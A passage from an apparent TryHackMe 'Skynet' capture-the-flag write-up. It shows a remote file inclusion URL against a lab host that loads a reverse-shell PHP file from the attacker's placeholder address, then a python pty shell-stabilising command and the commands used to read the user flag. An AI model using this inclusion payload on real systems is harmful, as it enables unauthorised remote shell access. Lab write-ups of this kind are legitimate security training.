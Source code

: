 Now trigger the exploit:

```
http://10.10.24.11/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://YOUR_IP:8000/revshell.php
```

![IMAGE](https://github.com/definitelynotrafa/THM-writeups/raw/main/assets/rooms/Skynet/29.png)

**WE'RE IN!**

Stabilize the shell:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![IMAGE](https://github.com/definitelynotrafa/THM-writeups/raw/main/assets/rooms/Skynet/30.png)

---

## User Flag

Time to grab that user flag!

Navigate to Miles' home directory:

```bash
cd /home/milesdyson
cat user.txt
```

![IMAGE](https://github.com/definitelynotrafa/THM-writeups/raw/main/assets/rooms/Skynet/31.png)
